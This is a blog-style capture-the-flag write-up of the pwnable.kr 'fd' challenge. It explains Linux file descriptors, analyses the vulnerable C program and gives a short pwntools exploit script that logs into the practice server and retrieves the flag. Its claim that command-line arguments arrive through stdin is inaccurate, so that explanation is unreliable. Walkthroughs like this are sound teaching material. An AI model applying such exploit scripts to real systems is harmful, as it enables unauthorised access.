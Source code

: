 ```yaml
---
layout: post
title: pwnable.kr - fd , Understanding Linux File Descriptors and creating a simple exploit with python pwntools
categories: pwn
image: pwn/fd/0.png
---
```


<hr>
### Introduction
#### Hey guys , Lately I have been doing pwn challenges and I decided to share some stuff with you from time to time like I do with the other write-ups. Today we will solve fd from pwnable.kr , it's a very easy one but as always we will go in detail.
<br>
>  pwn means to compromise or control, specifically another computer (server or PC), website, gateway device, or application. It is synonymous with one of the definitions of hacking or cracking.
-[Wikipedia](https://en.wikipedia.org/wiki/Pwn) 

<br>
![](/images/pwn/fd/0.png)
<hr>
### Challenge Description
```
Mommy! what is a file descriptor in Linux?
ssh fd@pwnable.kr -p2222 (pw:guest)
```
#### We have ssh login info, and some sort of a hint , before doing anything let's talk about file descriptors , because that's what the hint said.
<br>
<hr>
### File descriptors
#### File descriptors simply are indicators or handles used to access a file or i/o (input/output) resource , File descriptors are represented in `c` as integers and there are 3 types of file descriptors :
#### `standard input` (`stdin`) , its integer value is `0`
#### `standard output` (`stdout`) , its integer value is `1`
#### `standard error` (`stderr`) , its integer value is `2`
#### To summarize this up , when you run a program and give it arguments through `sys.argv` for example , that's `stdin` , whatever the program gives you back as an output , that's `stdout` . If the program gave you an error , because you missed a required argument or gave it a wrong argument for example , that's `stderr`.
<br>
<hr>
### Source analysis
#### After we `ssh` to the server (`ssh fd@pwnable.kr -p2222` , password : `guest`) we find 3 files 
![](/images/pwn/fd/1.png)
#### `fd` , `fd.c` and `flag`.
#### `fd` is an executable , and `fd.c` is the source of that executable
![](/images/pwn/fd/2.png)
#### And we don't have permissions to view `flag` :
![](/images/pwn/fd/3.png)
#### Let's take a look at the source : 
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
        if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }
        int fd = atoi( argv[1] ) - 0x1234;
        int len = 0;
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                system("/bin/cat flag");
                exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;

}
```
### Breakdown :
```
char buf[32];
```
#### This assigns a buffer of 32 chars to the variable `buf`
<br>
```
if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }

```
#### Here it starts by checking if we passed and argument or not , and if we didn't , it will print `pass argv[1] a number`
![](/images/pwn/fd/4.png)
<br>
<br>
```
int fd = atoi( argv[1] ) - 0x1234;
```
#### Then it defines a variable called `fd` , the value of that variable is `atoi( argv[1] ) - 0x1234`. `atoi()` is a function in `c` that converts a string into an integer , it stands for `Ascii to Integer` , `0x1234` is the hex of `4660` 
![](/images/pwn/fd/5.png)
#### So it subtracts 4660 from our input.
<br>
```
int len = 0;
```
#### This defines a variable called `len` and assigns a value of `0` to it
<br>
```
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                system("/bin/cat flag");
                exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;

```
#### Here it's taking `fd` and also reading our input and puts it into `buf` , then there's an if statement which checks if the value of buf is `LETMEIN` , if it's then it will print `good job` and give us the flag , but if it's not it will print `learn about Linux file IO`. 
<br>
<hr>
### Exploitation
#### Now we have an idea about the logic of the program , and a pwn challenge is all about breaking that logic.
#### Let's run the program just to test :
`./fd 1337`
![](/images/pwn/fd/6.png)
#### It prints `learn about Linux file IO` , because we didn't get `fd` right. We know that `fd` is an abbreviation for file descriptor , and there are 3 file descriptors `stdin` `stdout` `stderr` , And we can also control the value of `fd` because we know that it's subtracting 4660 from `argv[1]` and we control `argv[1]` , how are we giving the program `argv[1]` ? Through `stdin` which is represented by `0` , so if we gave the program `4660` , `fd = 4660 - 4660` , `fd = 0`. Let's try it.
![](/images/pwn/fd/7.png)
#### Now it didn't print `learn about Linux file IO` , instead of that it's reading our input --> `len = read(fd, buf, 32);`
#### We knew earlier that we have to make buf = "LETMEWIN" to execute the first `if` condition :
![](/images/pwn/fd/8.png)
#### And we got the flag : "mommy! I think I know what a file descriptor is!!"
<br>
<hr>
### Exploitation with python pwntools
#### We will use a python library called pwntools to create an exploit. Read the documentation [here](http://docs.pwntools.com/en/stable/about.html)
#### We will import the pwntools library :
`from pwn import *`
#### Then we will set up an `ssh` connection to the server :
`shell = ssh('fd' ,'pwnable.kr' ,password='guest', port=2222)`
#### `fd` is the username , `pwnable.kr` is the host
#### After that we will start a process to execute `./fd 4660`
`process = shell.process(executable='./fd', argv=['fd','4660'])`
#### And finally we will send `LETMEWIN` and read the output
`process.sendline('LETMEWIN')`
<br>
<br>
`print process.recv()`
<br>
### Final script :
```
#!/usr/bin/python

from pwn import *

shell = ssh('fd' ,'pwnable.kr' ,password='guest', port=2222)
process = shell.process(executable='./fd', argv=['fd','4660'])
process.sendline('LETMEWIN')
print process.recv()
```
![](/images/pwn/fd/9.png)
#### Let's try it :
`./exploit.py`
![](/images/pwn/fd/10.png)
#### And it's working !
#### That's it , Feedback is appreciated !
#### Don't forget to read the [other write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<hr>

